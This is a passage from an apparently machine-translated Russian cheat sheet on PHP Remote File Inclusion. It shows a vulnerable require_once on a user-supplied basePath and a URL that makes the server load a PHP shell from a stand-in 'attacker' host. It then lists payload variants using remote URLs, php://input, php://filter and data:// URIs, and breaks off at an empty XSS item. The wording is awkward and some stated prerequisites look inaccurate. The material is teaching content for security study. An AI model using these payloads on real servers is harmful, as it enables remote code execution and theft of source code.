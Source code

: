Удаленный файл содержит Remote File Inclusion, RFI.

```php
<?php
    if ($route == "share") {
      require_once $basePath . "/action/m_share.php";
    } elseif ($route == "sharelink") {
      require_once $basePath . "/action/m_sharelink.php";
    }
?>
```

Создает значение переменной `basePath`.

```text
/?basePath=http://attacker/phpshell.txt?
```

Заключительный код выполнен

```php
require_once "http://attacker/phpshell.txt?/action/m_share.php";
```

Часть после вопросительного знака интерпретируется как строка запроса URL-адреса, что также является своего рода
«усечением».

- Обычный удаленный файл содержит
        
        ```text
        ?file=[http|https|ftp]://example.com/shell.txt
        ```

        Необходимо `allow_url_fopen=On` и `allow_url_include=On`.

- Использовать ввод потока PHP

        ```text
        ?file=php://input
        ```
        
        Необходимо `allow_url_include=On`.

- Использовать фильтр потока PHP
        
        ```text
        ?file=php://filter/convert.base64-encode/resource=index.php
        ```
        
        Необходимо `allow_url_include=On`.

- Использовать URI данных

        ```text
        ?file=data://text/plain;base64,SSBsb3ZlIFBIUAo=
        ```
        
        Необходимо `allow_url_include=On`.

- Выполнить с XSS
        